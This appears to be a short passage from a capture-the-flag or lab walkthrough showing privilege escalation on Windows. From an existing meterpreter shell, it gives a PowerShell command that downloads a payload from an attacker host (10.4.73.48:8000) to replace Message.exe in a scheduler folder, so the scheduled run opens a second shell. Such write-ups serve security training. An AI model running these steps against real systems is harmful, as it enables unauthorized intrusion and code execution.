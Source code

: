 ![messagelistener](screenshots/messagelistener.png)

On the first meterpreter shell, upload the new Message.exe payload to "C\Program Files (x86)\SystemScheduler":

powershell -c wget "http://10.4.73.48:8000/Message.exe" -outfile "Message.exe"

When the process runs "Message.exe" next the exploit will be run instead and the listener will open the second shell

![messageshell](screenshots/messageshell.png)
